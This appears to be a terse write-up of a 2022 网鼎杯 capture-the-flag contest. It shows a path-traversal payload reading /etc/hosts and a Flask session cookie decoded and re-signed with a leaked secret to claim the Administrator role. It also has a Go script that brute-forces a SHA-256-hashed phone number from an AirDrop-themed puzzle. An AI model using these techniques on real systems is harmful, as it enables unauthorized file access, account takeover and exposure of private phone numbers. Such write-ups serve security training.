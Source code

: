 # 2022网鼎杯

# web

## flask

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/hosts

# Kubernetes-managed hosts file.

127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
fe00::0	ip6-mcastprefix
fe00::1	ip6-allnodes
fe00::2	ip6-allrouters
10.6.114.230	engine-

PS D:\github\Download\flask-session-cookie-manager-master> python flask_session_cookie_manager3.py decode -c 'eyJ1cGRpciI6InN0YXRpYy91cGxvYWRzLzRiM2NmMWZmYzkyMjRmNGQ4MzBjNWEyOWRiODU0ZDE1IiwidXNlciI6Ikd1ZXN0In0.YwhJNQ.mK0mMgR5gcLUkQfTJ_k15s9x2NQ'
b'{"updir":"static/uploads/4b3cf1ffc9224f4d830c5a29db854d15","user":"Guest"}'

python flask_session_cookie_manager3.py encode -s 'engine-1' -t “{’updir’:’static/uploads/4b3cf1ffc9224f4d830c5a29db854d15’,’user’:’Administrator’}”

PS D:\github\Download\flask-session-cookie-manager-master> python flask_session_cookie_manager3.py encode -s 'engine-1' -t "{'updir':'static/uploads/4b3cf1ffc9224f4d830c5a29db854d15','user':'Administrator'}"
eyJ1cGRpciI6InN0YXRpYy91cGxvYWRzLzRiM2NmMWZmYzkyMjRmNGQ4MzBjNWEyOWRiODU0ZDE1IiwidXNlciI6IkFkbWluaXN0cmF0b3IifQ.YwhLlw.VcIPUzN_OPj1l_PHD23K40l1baA

# crypto

## crypto91

小A鼓起勇气向女神索要电话号码，但女神一定要考考他。女神说她最近刚看了一篇发表于安全顶会USENIX Security 2021的论文，论文发现苹果AirDrop隔空投送功能的漏洞，该漏洞可以向陌生人泄露AirDrop发起者或接收者的电话号码和电子邮箱。小A经过一番努力，获得了女神手机在AirDrop时传输的手机号哈希值，但再往下就不会了，你能继续帮助他吗？小A只记得女神手机号是170号段首批放号的联通号码。
Hash：c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc

flag格式：flag{13位电话号码（纯数字，含国家代码）}

开头为861706

```go
package main

import (
	"crypto/sha256"
	"encoding/hex"
	"fmt"
	"strconv"
)

func main() {

    // 第一种调用方法
	phonenum := 8617090000000
	for i := 0; i < 9999999; i++ {
		i_phonenum := phonenum + i
		str_phone := strconv.Itoa(i_phonenum)
		m := sha256.New()
    	m.Write([]byte(str_phone))
    	res := hex.EncodeToString(m.Sum(nil))
		if res == "c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc" {
			fmt.Println("phone num:" + str_phone)
		}
	}
    
}
```

# misc

答题
